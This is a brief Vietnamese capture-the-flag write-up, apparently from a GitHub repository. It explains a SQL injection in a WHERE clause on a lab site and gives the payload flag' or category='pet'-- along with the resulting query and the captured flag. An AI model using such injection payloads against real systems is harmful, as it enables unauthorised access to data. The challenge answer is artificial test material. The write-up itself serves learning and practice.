

# SQL injection vulnerability in WHERE clause

Mình thử vào trang flag để xem nhưng không có gì.
Rất có thể flag đã bị ẩn đi
Mình chú ý đến URL 



Câu lệnh trên tương đương với query: ```SELECT * FROM list WHERE category = 'flag'```
Mình thử inject vào để query thành: ```SELECT * FROM list WHERE category = 'flag' or category = 'pet'--```
Để có query như vậy thì payload mình tải lên sẽ là: ```flag' or category='pet'--```
Khi mình chuyền vào như vậy phần comment sẽ bypass đi dấu ngoặc đơn đóng lại query nên phần query sẽ được mở rộng sang cả phần or


*Flag: CHH{51mpL3_Sqli_IN_WhER3_5c226f2c7b700855aa2a577c90110627}*